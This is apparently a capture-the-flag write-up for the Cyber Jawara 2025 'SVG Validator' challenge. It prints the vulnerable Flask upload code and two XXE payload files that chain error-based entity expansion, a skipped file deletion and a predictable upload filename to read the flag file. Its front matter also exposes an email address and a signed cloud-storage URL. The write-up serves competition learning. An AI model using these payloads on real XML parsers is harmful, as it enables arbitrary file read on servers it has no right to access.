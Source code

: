 ```yaml
---
id: 17948583-e65d-8037-bf0f-d573b2499823
title: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
created_time: 2025-01-12T10:59:00.000Z
last_edited_time: 2025-05-22T09:16:00.000Z
cover_image: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif
icon_emoji: 🫡
categories:
  - XXE
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif

---
```


# Description

A simple SVG validator.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/8d6a70b2-6c3c-410a-9ddb-5303e731a08d/svg-validator.zip?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466Y6HQFAMK%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T073424Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEC8aCXVzLXdlc3QtMiJIMEYCIQCiMnufyzKTWAuSMeXPFMSYUowFdlXsTx4SlDClS7P%2BLgIhALQHIo5hN9EmNY4FVAK5bTgkbwANDFwnA4zETIRE7q8RKogECOj%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEQABoMNjM3NDIzMTgzODA1IgwVkbURyo19IJC%2FPzEq3AMpwJ9Kg4S8IeGBkabOAEe4A53S%2BthyLametBnSwxHEQ18BbHnk3dVcCmA2EnNlPB%2Bq7danv1WBUnxbLKVGANYzPKko5uNMstOrLpX%2BGmndXPso0uNEuX8mAXxzszVQjMfT2UEjXc6FgyUEI2tbg81MPaJnPu3M8Zdgg3rjeqEGd%2FISh74tcnxdA3AGHFMiZyl%2B2ZeWwOVXd4SYVNmd38UZV0n0p17D%2Bn48G0W6eHzUgx8NvdVdS4Oif%2FLJLTI3uf61Bn49S2wwFHw3y7ANnymKk7oudeME%2FmeRk8Zwp60WPKaQWJ6Dond0JDS3HFCEY705EYBySgdZH5MOVLw%2B5qt2AzZvWNvTKgheGIPjKN1Ud2Hq3bD2nc1%2B5cSlhZ4g31rIE7G68LM%2BVObMADNcALmCZOiTpgjlp%2Fn4tY90%2Bl280FMZo07uvuGvpTxW7lvEmKz%2B0LwH2Eucl4m1o9%2BwKEMfURmg3dDH05teE82zxsOtYJJzuSG9ouY%2FBpRX0d7KWeKdeAhViDOwclN%2FsvCPoN%2FpFMKqm1ID3nVyegIZzSh0mLibV3oP6kCghnJXbAGX6yTXibtpGdFfwn0ZCLURFq1Bk2inaPU8E6QaBiMQPmBRHkFA8wqIl8FeybmtQzCLs8DBBjqkAb3TcRR5p0S09fXNEX9qAEAPdMgl2tIOXe5ChQhjnh7WWtX7en9lGSqG6SYGzZ96%2Fbh2ZhXh9B00vt8v5xlOgLadD9btX6tBJOvQf2DV7H7riMnNxgaEnMSXHYqWNlwahY57zbZ76uCM5V2rXafPRTzHaWaX6PiWmNGGu%2BGUrdsPatbwYXdxJiEFm6dk%2FTttRUXLHYAG6Rn%2FIZWS%2BZmemG6t66Y3\&X-Amz-Signature=82b162c67b14eea5c8bbd7d0fcd1cd8bd278580f7f132c827cc5d7d152baec56\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# Exploit

In order to gain Arbitrary File Read, we will exploit the XXE vulnerability in the `lxml.etree`. We must introduce an error in the XML since we cannot read the flag information directly because we do not receive the rendered XML's direct output.

For this task, we have to save our local file on the server, but we can't because it will be deleted after validation. However, we can store and get around the `os.remove` due of a logical error:

```python
        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

Therefore, by making the `is_valid_svg` function throw an error, we can avoid the `os.remove` step and ensure that the file stored on the server will remain intact even if our `is_valid_svg` method gives an error.

```python
def is_valid_svg(file_path):
    tree = etree.parse(file_path)
    root = tree.getroot()
    return root.tag.endswith('svg')

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'file' not in request.files:
        return jsonify({'error': 'No file part'}), 400

    file = request.files['file']

    if file.filename == '':
        return jsonify({'error': 'No selected file'}), 400

    if not allowed_file(file.filename):
        return jsonify({'error': 'Invalid file extension'}), 400

    file_path = ''

    try:
        extension = file.filename.rsplit('.', 1)[1].lower()

        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
        file_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
        file.save(file_path)

        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

We now need to keep one XML file on the server so that we can add it later to cause an error that will leak the flag. This is the first file we upload:

testing.svg

```python
<!ENTITY % content SYSTEM "file://app/flag.txt">
	<!ENTITY % test '<!ENTITY &#x25; file SYSTEM "file:///tmp/%content;">'>
 	%test;
```

due to the etree.Parse will automatically avoid the os.remove function and throw an error since it does not recognize this as valid XML. The second file is as follows:

file.svg

```python
<!DOCTYPE root [
	<!ENTITY % dtd SYSTEM "file:///tmp/051880fbfbd0b3f38ec3244610784c3a9c258f755039bb7cf1311fd1fc843f2d.svg">
 	%dtd;
]>
<svg></svg>
```

The file in tmp is a file that we upload before, the hash isn’t random and same each iteration because their filename isn’t use secret.token\_hex function properly:

```python
        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
```

So after we uploaded that two file we will get the flag:

![](./imgs/image_UQYv5eO4.png)
